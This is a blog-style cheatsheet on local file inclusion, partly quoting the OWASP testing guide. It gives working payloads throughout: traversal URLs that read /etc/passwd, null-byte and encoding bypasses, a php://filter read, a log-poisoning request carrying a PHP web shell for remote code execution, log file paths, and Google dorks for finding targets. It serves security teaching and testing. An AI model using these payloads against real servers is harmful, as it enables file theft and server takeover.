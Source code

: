 ```yaml
---
layout: post
title: "LFI - Local file inclusion"
date: 2023-03-09
description: | 
    Discover concepts of local file inclusion (LFI). Learn the potential consequences of LFI attacks, which can range from information disclosure to remote code execution.
author: Teiiko
categories: [cheatsheet]
tags: ["LFI"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>



## Introduction
Local File Inclusion (also known as LFI) is the process of including
files, that are already locally present on the server, through the
exploiting of vulnerable inclusion procedures implemented in the
application. This vulnerability occurs, for example, when a page
receives, as input, the path to the file that has to be included and
this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although
most examples point to vulnerable PHP scripts, we should keep
in mind that it is also common in other technologies such as JSP,
ASP and others <br>

*(Source: OWASP testing guide)*

## How to test ?

Since LFI occurs when paths passed to "include" statements are
not properly sanitized, in a blackbox testing approach, we should
look for scripts which take filenames as parameters.<br>

Consider the following example:<br>

`http://vulnerable-host/preview.php?file=example.html`

This looks as a perfect place to try for LFI. If an attacker is lucky
enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parame-
ter, it is possible to include arbitrary files on the server<br>

`http://vulnerable-host/preview.php?file=../../../../etc/passwd`

If the above mentioned conditions are met, an attacker would
see something like the following:<br>

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
alex:x:500:500:alex:/home/alex:/bin/bash
margo:x:501:501::/home/margo:/bin/bash
...
```

*(Source: OWASP testing guide)*

## Bypass file extension via null byte

Most of the time, the GET parameter will only take filename in argument. The file extension will be specified in the PHP code, as following:<br>
```php
<?php 
    $file = include($_GET["filename"].".php"); 
?>
```
So, simple substitution with arbitrary filename would not
work as the postfix '.php' is appended. To bypass it, we can add a null-byte behind our requested file. In this case, exploitation would work as following:<br>

`http://vulnerable-host/article.php?=/etc/passwd%00`

## Bypass filters via URL encoding

URL encoding can be very usefull to bypass some filters and special chars in the URL. This exploitation can simply be resumed
by URL encoding your payload. In my case, i often use this site: [URL Encoder](https://www.urlencoder.org/). 
In this exemple, our exploitation would look like this:<br>

`http://vulnerable-host/article.php?=...%2F..%2F..%2F..%2Fetc%2Fpasswd%00`

Know that double URL encoding also works.
## Path truncation (under PHP 5.3)

Path Truncation is an LFI attack technique used to bypass filters that append certain strings to the end of user-provided parameters. For example, appending ".php" to a requested page. Attackers can use directory traversal techniques to access files outside the intended directory. By adding extra dots or slashes to the file path, attackers can confuse the server and bypass certain protections. For example, to access the "/etc/passwd" file on a Linux system, an attacker might use the following URL:

`http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]..`

Alternatively, an attacker might try:

`http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.`

To successfully exploit this technique, the attacker needs to try various combinations of "../" and other characters to determine the right amount needed to delete the appended string while still allowing access to the target file. Starting the path with a fake directory, such as "a/", can help evade detection.
## PHP Wrappers

### php://filter

`php://filter/convert.base64-encode`

Youc can specify a resource wich is the file you want to include. In our exemple, you can do as following:<br>

`http://vulnerable-host/article.php?=php://filter/convert.base64-encode/resource=/etc/passwd`

This will upload a base64-encoded string. By decoding, you'll get the plaintext content of your file.


## From LFI to RCE via log poisoning

A local file inclusion can be escalated to a remote code execution via several ways. A well-known way is via Apache log file poisoning. If the Apache web server is vulnerable to LFI, you can try to access to the log file and set your php payload in your User-Agent. For example, you can set a PHP Web shell as following : `<?php system($_GET['cmd']); ?>`

So the request will looks like this:<br>

```
GET /index.php?page=/var/log/apache2/access.log HTTP/1.1
Host: example.com
User-Agent: <?php system($_GET["cmd"]); ?>
```

In this example, the "page" parameter of the request contains a reference to a local file on the server that is vulnerable to local file inclusion. The User-Agent field contains malicious PHP code that will execute a system command specified by the user via the GET request. If this request is successfully sent, it can allow an attacker to execute arbitrary code on the server, potentially resulting in full system takeover.

Here is a list of common log file path (depending on the web server):<br>
```
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
/var/log/apache/access.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/lighttpd/access.log
/var/log/lighttpd/error.log
/var/log/tomcat/access_log
/var/log/tomcat/catalina.out
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/nodejs/node.log
/var/log/syslog
```
## Dorks for LFI - Bug Bounty

 if you are a bug bounty hunter who has been authorized to search for vulnerabilities, Google Dorks can be a valuable tool for finding LFI vulnerabilities. Google Dorks are search queries that can help to identify websites with specific vulnerabilities, including LFI. Here are some examples of Google Dorks for LFI that bug bounty hunters can use:
```
site:example.com inurl:?page=
site:example.com inurl:?file=
site:example.com intitle:"index of"
site:example.com filetype:php inurl:index
```

It is important to note that while Google Dorks can be a useful tool, it should not be the only method of identifying LFI vulnerabilities. Manual testing and other techniques should also be utilized to ensure that all vulnerabilities are identified and addressed appropriately.

## Using ChatGPT for LFI
## Conclusion
<br><br>Thanks for reading ! Give me a feedback on Discord - `Teiiko#8831`

<button id="back-to-top-btn" class="btn btn-primary2 btn-lg circle"><i class="fas fa-arrow-up"></i></button>

<style>
#back-to-top-btn {
  position: fixed;
  bottom: 20px;
  right: 40px;
  display:none;
  cursor:pointer;
}

</style>

<script>
    // Afficher/masquer le bouton "scroll to top"
$(window).scroll(function() {
  if ($(this).scrollTop() > 100) {
    $('#back-to-top-btn').fadeIn();
  } else {
    $('#back-to-top-btn').fadeOut();
  }
});

// Faire remonter au header de la page lorsque le bouton est cliqué
$('#back-to-top-btn').click(function() {
  $('html, body').animate({scrollTop : 0},800);
  return false;
});

</script>